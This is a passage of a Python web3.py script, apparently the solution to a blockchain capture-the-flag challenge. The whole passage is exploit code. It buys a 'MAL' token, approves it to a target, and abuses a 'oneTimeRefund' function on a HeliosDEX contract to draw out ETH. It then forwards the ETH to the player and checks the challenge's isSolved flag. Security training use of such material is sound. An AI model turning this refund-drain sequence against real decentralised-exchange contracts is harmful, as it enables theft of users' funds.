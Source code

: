 ```python
    })
    
    signed_swap = w3.eth.account.sign_transaction(swap_tx, account.key.hex())
    swap_hash = w3.eth.send_raw_transaction(signed_swap.raw_transaction)
    swap_receipt = w3.eth.wait_for_transaction_receipt(swap_hash)
    
    # Check MAL token balance
    mal_balance = mal_contract.functions.balanceOf(account.address).call()
    print(f"MAL token balance: {mal_balance}")
    
    # Approve MAL tokens for refund
    approve_tx = mal_contract.functions.approve(TARGET_ADDRESS, mal_balance).build_transaction({
        'from': account.address,
        'gas': 100000,
        'gasPrice': w3.eth.gas_price,
        'nonce': w3.eth.get_transaction_count(account.address),
        'chainId': CHAIN_ID
    })
    
    signed_approve = w3.eth.account.sign_transaction(approve_tx, account.key.hex())
    approve_hash = w3.eth.send_raw_transaction(signed_approve.raw_transaction)
    approve_receipt = w3.eth.wait_for_transaction_receipt(approve_hash)
    
    # Refund MAL tokens for ETH
    refund_tx = heliosdex.functions.oneTimeRefund(mal_address, mal_balance).build_transaction({
        'from': account.address,
        'gas': 200000,
        'gasPrice': w3.eth.gas_price,
        'nonce': w3.eth.get_transaction_count(account.address),
        'chainId': CHAIN_ID
    })
    
    signed_refund = w3.eth.account.sign_transaction(refund_tx, account.key.hex())
    refund_hash = w3.eth.send_raw_transaction(signed_refund.raw_transaction)
    refund_receipt = w3.eth.wait_for_transaction_receipt(refund_hash)
    
    # Transfer ETH back to player
    eth_balance = w3.eth.get_balance(account.address)
    return_amount = eth_balance - w3.to_wei(0.005, 'ether')
    
    return_tx = {
        'from': account.address,
        'to': PLAYER_ADDRESS,
        'value': return_amount,
        'gas': 21000,
        'gasPrice': w3.eth.gas_price,
        'nonce': w3.eth.get_transaction_count(account.address),
        'chainId': CHAIN_ID
    }
    
    signed_return = w3.eth.account.sign_transaction(return_tx, account.key.hex())
    return_hash = w3.eth.send_raw_transaction(signed_return.raw_transaction)
    return_receipt = w3.eth.wait_for_transaction_receipt(return_hash)
    
    # Final balance check
    final_balance = w3.eth.get_balance(PLAYER_ADDRESS)
    print(f"Final player balance: {w3.from_wei(final_balance, 'ether')} ETH")
    profit = final_balance - player_balance
    print(f"Profit: {w3.from_wei(profit, 'ether')} ETH")
    
    # Check if solved
    is_solved = setup_contract.functions.isSolved().call()
    print(f"Challenge solved: {is_solved}")
```